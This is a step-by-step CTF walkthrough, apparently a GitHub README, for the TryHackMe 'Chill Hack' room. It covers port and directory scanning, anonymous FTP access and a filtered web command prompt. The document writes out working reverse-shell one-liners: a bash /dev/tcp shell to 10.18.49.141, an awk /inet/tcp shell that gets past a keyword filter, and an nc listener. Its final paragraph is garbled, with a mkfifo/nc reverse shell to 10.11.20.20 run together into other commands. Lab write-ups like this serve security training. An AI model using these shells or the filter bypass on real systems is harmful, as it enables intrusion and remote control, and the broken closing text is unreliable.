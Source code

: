# CHill-Hack-CTF
A step by step walk through for the Chill Hack CTF on Tryhackme

---

Link: https://tryhackme.com/room/chillhack

---

# Enumeration

Lets begin with nmap, a popular enumeration tool!

more here: https://www.kali.org/tools/nmap/

Command: `nmap <machine_ip> -sV -sC -p-` (*We use -sV to determine the service version of the services running on the open ports and we use -p- to scan all ports, because by default nmap only scans 1000 ports, we can change it to scan all 65,000 using -p-*)

Anways! Lets look at our results

![image](https://github.com/traveller404/CHill-Hack-CTF/assets/92340426/592c02b6-0eff-4f13-bd0e-a455d6db8973)

We see that there are 3 ports running, port 21, 22 and 80, and we also see that port 21 allows anonymous login, this means we can login with the username of anonymousm and provide no password, we simpyl just hit enter when queried for a password

On login, there is just 1 file, "**note.txt**", we can download this to our local machine using `mget *`

![image](https://github.com/traveller404/CHill-Hack-CTF/assets/92340426/f7ea9271-86f5-4a19-8a84-ca827491ff19)

When we open this file up using `cat note.txt` we are told there is something that is filtering certain strings that is being put in the command, we still dont know what this is but lets continue, and its from a someone called Apaar

# The webserver

Seeing as there is nowhere else to go other than the website, because port 22 is always alot more secure, we see that the webserver is hosting a template page of some sorts, and any links just lead nowhere

We can now try to scan for other directories or subdomains with dirb, or gobuster, I will use gobuster as it is alot faster and can scan for more subdomains

Command | `gobuster dir -u http://<machine_ip> -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt`

![image](https://github.com/traveller404/CHill-Hack-CTF/assets/92340426/c0f9e73f-fe50-4ef4-895c-4dbc109d0bd6)

We are led to a subdomain of /secret and on going to this we are prompted for a command, this is very insecure as attackers can execute malicious code on the host machine, seeing passwords or other harmful information

If you try to using basic commands like `ls` we are asked if we are a hacker.

![image](https://github.com/traveller404/CHill-Hack-CTF/assets/92340426/f1d0784e-e7d8-455f-9796-069854696f01)

I kept guessing commands until I used whoami, this gave me a positive response saying we are www-data, which is a pretty common username for webserver users

Realizing we cant access any more information using the webserver command prompt interface, we are going to try execute some code that can give us a reverse shell

Using a basic bash reverse shell : `sh -i >& /dev/tcp/10.18.49.141/9001 0>&1` wil give nothing because once again the words are being filtered out, my guess is that there is a script running that filters out key words like bash, nc, ls, python etc and blocks them before ever reaching the actual command line, so to bypass this we can try to use whitespaces. Whitespaces, in short, are certain characters or strings of letters, that register as basically nothing, and basically correspond to nothing but can bypass certain firewalls that block certain words, I found that the command `awk 'BEGIN {s = "/inet/tcp/0/<machine_ip>/<port>"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null` worked for me but I'm sure there are other commands that can bypass this, now all I have to do is use nc to set up a listner so `rlwrap nc -lvp <port>`

# Shell and Privesc

![image](https://github.com/traveller404/CHill-Hack-CTF/assets/92340426/ee7d0dc4-0b09-4a22-af04-e35dba81052b)

Once logged in, I'd like to make my shell more useable, this isnt required but can make the shell alot easier to use
Checking aroud we see that in /home there are 3 users, 2 of which we are not allowed to change directory to, apart from a user called apaar 
We see there is a file called local.txt and that looks important but we are denied permission to open it

Using the command `sudo -l` we are allowed to use a hidden file in the apaar directory as the same use apaar, and we can sudo run it as apaar, and we also find it is vulnerable to command injection on the 2nd prompt

After exploiting the vulnerable script, we are given a shell as apaarr\m /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.20.20 4242 >/tmp/fsudo -u apaar /home/apaar/.helpline.shpython3 -c 'import pty; pty.spawn("/bin/bash")'sudo -u apaar /home/apaar/.helpline.sh
